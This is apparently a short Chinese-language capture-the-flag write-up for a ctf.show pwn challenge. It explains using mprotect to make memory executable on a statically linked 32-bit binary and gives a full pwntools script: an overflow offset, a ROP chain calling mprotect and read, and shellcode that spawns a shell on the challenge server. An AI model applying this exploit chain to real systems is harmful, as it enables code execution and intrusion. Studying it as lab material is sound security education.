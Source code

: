 # 挑战简介
静态编译？或许你可以找找mprotect函数

# 思路

mprotect函数可以将内存权限进行修改为可读可写可执行。  
int mprotect(const void *start, size_t len, int prot);mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。  
一般prot直接修改为7，即可读可写可执行。  

通过调用mprotect来赋权，对内存进行赋读写执行权限，再利用read读取输入的shellcode，从而执行，这就是总体思路  

```
#!/usr/bin/python3
from pwn import *
from LibcSearcher import *

context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28258)
elf = ELF('./pwn')


offset = b'a'*(0x12 + 0x4)

mprotect_addr = elf.symbols['mprotect']

pop_ret_addr = 0x08056194

base_addr = 0x080da000

shellcode = asm(shellcraft.sh(),arch='i386',os='linux')

read_addr = 0x0806bee0

shellcode_addr = 0x080da000

payload = offset + p32(mprotect_addr) + p32(pop_ret_addr) + p32(base_addr) + p32(0x1000) + p32(0x7) + p32(read_addr) + p32(base_addr) + p32(0x0) + p32(base_addr) + p32(len(shellcode))


print(payload)

p.sendline(payload)
p.sendline(shellcode)

p.interactive()
```

